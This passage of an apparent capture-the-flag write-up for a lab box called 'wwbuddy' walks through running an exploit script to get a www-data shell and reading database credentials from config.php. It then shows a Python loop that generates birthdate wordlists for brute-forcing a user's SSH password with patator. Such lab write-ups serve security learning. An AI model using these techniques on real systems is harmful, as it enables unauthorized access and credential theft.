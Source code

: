 Again, to go around quotes issues without hassle, I just did
```
python3 expl.py --name_only --name "$(cat name)"
```

And we got a shell.

In home we find :
```
www-data@wwbuddy:/home$ ls -la
total 20
drwxr-xr-x  5 root    root    4096 Jul 28 17:49 .
drwxr-xr-x 23 root    root    4096 Jul 25 14:53 ..
drwx------  2 jenny   jenny   4096 Jul 27 21:44 jenny
drwx------  3 roberto roberto 4096 Jul 27 21:25 roberto
drwx------  6 wwbuddy wwbuddy 4096 Jul 28 17:39 wwbuddy
```

In the chat, it is mentionned that the default credentials are the date of birth. `Roberto` has changed it but probably not `jenny`

Hmmm, doesn't seems to be a `jenny` user on the website (We could have easily retrieved her birthdate this way).

Hmmm, maybe we can bruteforce it, but not sure of the format.. The age should be near `roberto` since he talk about her in the chat.
```
roberto birthday : 04/14/1995
```

Let's check in the database if there is a mention somewhere.
Looking at `/var/www/html/config.php` we get:
```
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'password123');
define('DB_NAME', 'app');
```

Looking in the db, can confirm that there is nothing there...

Maybe we really are supposed to bruteforce jenny birthdate and the password format..

Let's run linpeas while we prepare the bruteforce.

linpeas didn't find anything useful.

We generate dated from `1990` to `2000` using this little python loop :
```
for year in range(1990, 2000):
    for month in range(1,13):
        for day in range(1,32):
            print(f"{day:02}{month:02}{year}")
            print(f"{day:02}{month:02}{str(year)[-2:]}")
```

We pipe the result to a file that will be used by patator to bruteforce `jenny` ssh password.

The bruteforce is quite slow tho (5 request/seconds for 7440 requests)... I might have exagerated on the date range. Should have tested the year `1995` first. 
We'll let this run and we'll see.
